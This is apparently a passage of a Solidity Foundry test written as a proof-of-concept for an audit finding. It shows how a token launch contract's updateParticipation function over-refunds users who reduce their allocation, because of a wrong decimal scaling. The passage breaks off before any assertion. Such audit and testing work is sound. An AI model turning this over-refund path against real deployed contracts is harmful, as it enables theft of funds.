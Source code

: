```solidity
        settingsApplied.minTokenAmountPerUser = 1; // set very low minimum (scaled later in contract)
        launch.setLaunchGroupSettings(testLaunchGroupId, settingsApplied);
        vm.stopPrank();

        // Create an initial participation request with 150 tokens (scaled)
        ParticipationRequest memory pReq = _createParticipationRequest();
        // uint256 scale = 10 ** tokenDecimals(); 
        uint256 scale = 10 ** 18; 
        pReq.tokenAmount = INITIAL_TOKENS * scale;
        bytes memory pSig = _signRequest(abi.encode(pReq));

        // Approve and perform participation as user1
        vm.startPrank(user1);
        uint256 initCurrencyAmount = _getCurrencyAmount(
            pReq.launchGroupId,
            pReq.currency,
            pReq.tokenAmount
        );
        currency.approve(address(launch), initCurrencyAmount);
        launch.participate(pReq, pSig);
        vm.stopPrank();
    }

    /// @notice Test the miscalculation when reducing token allocation.
    /// @dev The vulnerable updateParticipation function uses a conversion that divides by (10**decimals)
    ///      instead of (10000 * (10**decimals)). This leads to a refund that is higher than what a correct token‐delta
    ///      based calculation would yield.
    function test_UpdateParticipation_Reduce_Miscalculation() public {
        // uint8 dec = tokenDecimals(); // get token decimals from the launch contract
        uint8 dec = 18;
        uint256 scale = 10 ** dec;

        // Calculate miscalculated currency amounts using the vulnerable conversion
        uint256 miscalculatedPrev = _calculateCurrencyAmount(
            TOKEN_PRICE_BPS,
            INITIAL_TOKENS * scale
        );
        uint256 miscalculatedNew = _calculateCurrencyAmount(
            TOKEN_PRICE_BPS,
            NEW_TOKENS * scale
        );
        uint256 refundCalculated = miscalculatedPrev - miscalculatedNew;

        // Calculate what the correct refund should be if derived from a proper token-delta:
        // Correct refund = (TOKEN_PRICE_BPS * (INITIAL_TOKENS - NEW_TOKENS)) / 10000.
        uint256 expectedRefund = (TOKEN_PRICE_BPS * (INITIAL_TOKENS - NEW_TOKENS)) / 10000;

        // --- Now perform the updateParticipation call that should trigger the refund ---
        vm.startPrank(user1);
        uint256 balanceBefore = currency.balanceOf(user1);

        // Create an update participation request to reduce the token amount to 100 tokens.
        UpdateParticipationRequest memory uReq = _createUpdateParticipationRequest(NEW_TOKENS);
        bytes memory uSig = _signRequest(abi.encode(uReq));

        // In a reduction scenario, a refund is triggered.
        launch.updateParticipation(uReq, uSig);
        vm.stopPrank();

        uint256 balanceAfter = currency.balanceOf(user1);
```